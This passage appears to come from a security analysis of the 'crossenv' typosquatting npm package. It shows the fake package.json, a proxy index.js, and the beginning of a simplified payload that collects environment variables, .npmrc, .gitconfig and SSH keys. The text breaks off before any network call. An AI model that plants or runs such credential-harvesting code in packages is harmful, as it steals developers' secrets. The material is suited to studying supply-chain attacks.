 json

```json
// package.json from malicious package
{
  "name": "crossenv",
  "version": "6.0.3",
  "description": "Cross platform setting of environment scripts",
  "main": "index.js",
  "dependencies": {
    "cross-env": "^6.0.3"
  },
  "keywords": [
    "cross-env",
    "environment",
    "cross-platform"
  ]
}
```

#### 2. Proxy Forwarding

The main index.js file would import and re-export all functionality from the legitimate package:

javascript

```javascript
// index.js (simplified example)
const crossEnv = require('cross-env');

// Re-export all legitimate functionality
module.exports = crossEnv;
```

#### 3. Malicious Payload

The package included obfuscated code that executed during installation or runtime:

javascript

```javascript
// Actual malicious payload (simplified for clarity)
// In practice, this was highly obfuscated

(function() {
  const os = require('os');
  const fs = require('fs');
  const path = require('path');
  const https = require('https');
  
  // Function to collect sensitive information
  function collectData() {
    const data = {
      hostname: os.hostname(),
      platform: os.platform(),
      username: os.userInfo().username,
      homeDir: os.homedir(),
      environment: process.env,
      npmrc: readSensitiveFile('~/.npmrc'),
      gitconfig: readSensitiveFile('~/.gitconfig'),
      sshKeys: collectSSHKeys(),
      packageJson: findPackageJson()
    };
    return data;
  }
  
  // Function to read sensitive files
  function readSensitiveFile(filePath) {
```